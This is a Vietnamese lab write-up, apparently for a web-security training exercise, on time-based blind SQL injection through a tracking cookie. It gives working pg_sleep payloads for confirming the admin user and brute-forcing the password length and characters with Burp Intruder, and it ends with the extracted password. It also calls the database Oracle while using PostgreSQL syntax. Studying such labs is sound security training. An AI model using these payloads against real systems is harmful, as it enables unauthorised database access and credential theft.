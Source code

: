 ## Blind SQL injection with time delays and information retrieval

Xác định được CSDL đang sử dụng là Oracle bằng cách sử dụng câu query time deplay của Oracle
> **TrackingId=crL1RtnRvnEhp8aD'||pg_sleep(10)--**

Chúng ta sẽ xác nhận user admin có trong bảng user không bằng cách thử câu điều kiện lỗi.

```markdown
**SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END**
```

Áp dụng vào trackingId

```markdown
**TrackingId=crL1RtnRvnEhp8aD'||(SELECT CASE WHEN (1=1) THEN pg_sleep(5) ELSE pg_sleep(0) END)--**
```

điều kiện đúng thì thực hiện vế 1, không thì thực hiện else => Ta sẽ thấy mất hẳn 5s reponse mới được trả về => đây là đk đúng

Ta truy vấn kiểm tra xem user admin có tồn tại hay không nhờ vào thời gian trả về reponse là từ 5s

```markdown
**TrackingId=crL1RtnRvnEhp8aD'||(SELECT CASE WHEN (username='administrator') THEN pg_sleep(5) ELSE pg_sleep(0) END FROM USERS)--**
```

![](/imgs/SQL-Injection/61.png?raw=true)

Tiếp tục brute xem pass có độ dài bao nhiêu.

Đưa request sang Intruder và đánh dấu đô la vào phần độ dài pass (Phần payload thì chọn number)

Ở Tab resource pool ta sẽ tạo thêm pool mới max request là 1 để xác định xem request nào đang delay.

![](/imgs/SQL-Injection/62.png?raw=true)

Sau khi brute xong ta check phần response receive đến payload số 19 có sự thay đổi về response receive => password có 20 kí tự

![](/imgs/SQL-Injection/63.png?raw=true)

Sau khi đã biết được có 20 kí tự trong pass ta sẽ brute 1 lần nữa lấy ra nguyên pass như các lab đã làm (có thể chỉnh thời gian deplay còn 2 hoặc 3s để không phải chờ mỏi mòn :v)

Xếp lại theo response receive chúng ta sẽ nhận được các reponse với response receive cao hơn các reponse khác, nếu đếm ra thì có chính xác 20 response như vậy.

![](/imgs/SQL-Injection/64.png?raw=true)

Chúng ta sẽ xếp lại playload1 tương ứng với giá trị của payload2 rồi login vào
Wt1azwyrlmqdo6yemc6j

![](/imgs/SQL-Injection/65.png?raw=true)




